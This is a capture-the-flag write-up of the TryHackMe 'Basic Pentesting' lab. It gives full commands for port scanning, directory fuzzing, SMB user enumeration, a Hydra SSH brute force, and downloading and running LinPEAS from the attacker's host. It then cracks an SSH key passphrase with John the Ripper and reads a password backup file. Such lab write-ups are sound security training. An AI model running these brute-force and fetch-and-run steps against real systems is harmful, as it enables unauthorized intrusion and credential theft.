



# 🚩 TryHackMe - Basic Pentesting Writeup
**Date:** 12-02-2026  
**Difficulty:** Easy    

---

## 📑 Summary
This is a machine that allows you to practise **web app hacking** and **privilege escalation**.
---

## 🔍 1. Enumeration

### 1.1 Port Scanning (Nmap)
Initial scan to identify open ports and services:
```bash
nmap -sC -sV -T4 -oX init_scan_BasicPentesting.xml [VICTIM_IP]
```
The output is **.xml** format so I can change it to html with the `xsltproc` tool.


I can see many interesting open ports and services like **22(ssh), 80(http), 139 & 445(samba)…**

Let’s focus on the web HTTP server for now: 


After checking the source code, I found this comment:
*<!-- Check our dev note section if you need to know what to work on. -→*

### 1.2 Web Fuzzing (ffuf)

I tried to access “*/dev*” endpoint on the web but it didn’t work, so guess It’s time to fuzz directories.
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u [http://[IP]/FUZZ](http://10.64.182.141/FUZZ) -ic -c -t 50 -e .php,.html,.txt`

One of the directories I got is the “development” one. Let’s take a look

Found two very interesting files in [http://[IP]/development/](http://[IP]/development/dev.txt)

The first one called “dev.txt” says:



The other one is called “j.txt”:



The notes suggest that 'J' and 'K' are likely system usernames in the victim machine. Besides, there is valuable information in these files like “struts 2.5.12”mention which is a exploitable version of this framework and the other file says there is a **weak credentials** on “/etc/shadow” file that may be not updated at the moment.

### 1.3 SMB Enumeration

After thinking for a while of how I could obtain these usernames I remembered there is an actual SMB service which can be enumerated with the `enum4linux` tool.

`/opt/enum4linux/enum4linux.pl -a [IP] | tee enum4linux_report.txt`

It worked! Both usernames were found

`[+] Enumerating users using SID S-1-22-1 and logon username '', password ''`

`S-1-22-1-1000 Unix User\kay (Local User)`

`S-1-22-1-1001 Unix User\jan (Local User)
S-1-22-1-1002 Unix User\ubuntu (Local User)`

## 💥 **2. Exploitation / Gaining Access**

### 2.1 SSH Brute Force

Since I know one of the users may be “Jan”, the next move it’s to trying to bruteforce the SSH service with this new user using Hydra:

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://[IP] -f`

And, as I expected, it discovered the password:
`[22][ssh] host: [IP]   login: jan   password: XXXXX`

### 2.2 Establishing a Shell

Sucesfully accessed via SSH:

`jan@ip-X-X-X-X:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)`

## 📈 3. Privilege Escalation

### 3.1 Local Enumeration

After logging in as `jan`, I explored the file system looking for interesting files or misconfigurations. However, due to restricted permissions, I was unable to access several sensitive directories.

To streamline the enumeration process, I decided to use **LinPEAS**, an automated script that searches for possible paths to escalate privileges.

**Steps taken:**

1. I started a Python HTTP server on my Kali machine to host the script:
`python3 -m http.server 80`



1. From the victim's machine, I downloaded the script to the `/tmp` directory:
`wget http://<KALI_IP>/linpeas.sh`
2. I granted execution permissions and ran it, saving it on a file because of the output’s lenght:
`chmod +x linpeas.sh && ./linpeas.sh > output_linpeas.txt`

After trying looking for many CVE reported on my output LinPEAS file, I tried many coincidences as “password”, “SUID”, “CVE”… etc. Also tried to exploit few of them until I spotted these results searching for “keys” on my output file:


### **3.2 Cracking the SSH Private Key**

Among the findings, the script highlighted a potential lateral movement vector: **SSH private keys**.

- **Finding:** A readable `authorized_keys` file and a private key were identified in `/home/kay/.ssh/`.
- **Command used to verify:** `grep -i "keys" output_linpeas.txt`

The discovered private key (`id_rsa`) was encrypted, requiring a passphrase to be used. I transferred the key to my attack machine to perform an offline brute-force attack.

1. **Format Conversion:** I used `ssh2john.py` to convert the RSA key into a hash format compatible with John the Ripper.Bash
    
    `/usr/share/john/ssh2john.py kay_user.key > kay.hash`
    
2. **Brute Force Attack:** I used **John the Ripper** with the `rockyou.txt` wordlist to crack the passphrase.Bash
    
    `john --wordlist=/usr/share/wordlists/rockyou.txt kay.hash`
    
    - **Result:** The passphrase was successfully recovered!

### **3.3 Lateral Movement (jan -> kay)**

With the cracked passphrase, I established an SSH connection to the target machine as the user `kay`.

`chmod 600 kay_user.key
ssh -i kay_user.key kay@10.64.182.141`

- **Status:** Successfully authenticated as `kay`.

Now on kay’s directory, there was a file I wanted to check: `pass.bak`

This file seemed to contain an old password, which was said on the previous website that has to be changed!

### **3.4 Final Flag & Root Access**

Once logged in as `kay`, I explored the home directory and found an interesting file named `pass.bak`.

Based on the previous hints found in the `/development` directory (which mentioned that Kay needed to change their password), I suspected this file might contain sensitive information.

- **Action:** Reading the backup file.
- **Command:** `cat pass.bak`

The file contained the final password/flag, confirming the successful compromise of the target system.

### **4. Conclusion & Lessons Learned**

The "Basic Pentesting" machine was a great exercise in following a logical attack path:

1. **Enumeration:** Discovering hidden directories and usernames via SMB and Web fuzzing.
2. **Exploitation:** Leveraging weak SSH credentials found through brute-forcing.
3. **Lateral Movement:** Utilizing local enumeration (LinPEAS) to find encrypted SSH keys and cracking them with John the Ripper.
4. **Privilege Escalation:** Finding sensitive backups (`.bak` files) left by users in their home directories.
